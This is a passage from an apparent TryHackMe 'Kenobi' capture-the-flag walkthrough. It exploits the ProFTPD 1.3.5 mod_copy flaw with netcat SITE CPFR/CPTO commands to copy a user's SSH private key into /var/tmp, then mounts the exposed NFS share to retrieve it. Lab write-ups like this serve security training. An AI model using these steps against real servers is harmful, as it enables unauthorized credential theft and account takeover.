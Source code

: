 ![Searchsploit Results for ProFTPD](https://notesbynisha.com/assets/images/thm/ctf/kenobi/thm-kenobi-07.png)

**Answer:** 4 exploits available for ProFTPD 1.3.5, including `mod_copy` vulnerabilities.

You should have found an exploit from ProFtpd's mod_copy module. 

The mod_copy module implements SITE CPFR and SITE CPTO commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user. 

### Exploiting ProFTPD mod_copy to Retrieve the Private Key

We're now going to copy Kenobi's private key using SITE CPFR and SITE CPTO commands.


I connected to FTP using netcat and issued:

```bash
nc 10.10.223.18 21
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

![ProFTPD mod_copy usage](https://notesbynisha.com/assets/images/thm/ctf/kenobi/thm-kenobi-08.png)

We knew that the /var directory was a mount we could see (task 2, question 4). So we've now moved Kenobi's private key to the /var/tmp directory.



---

### Mounting /var and Retrieving the Private Key

**Lets mount the /var/tmp directory to our machine**


```bash
sudo mkdir /mnt/kenobiNFS
sudo mount 10.10.223.18:/var /mnt/kenobiNFS
```

![Mounted NFS directory](https://notesbynisha.com/assets/images/thm/ctf/kenobi/thm-kenobi-09.png)




```bash
ls -la /mnt/kenobiNFS/tmp
```

**We now have a network mount on our deployed machine! We can go to /var/tmp and get the private key then login to Kenobi's account.**


![Found id_rsa](https://notesbynisha.com/assets/images/thm/ctf/kenobi/thm-kenobi-10.png)

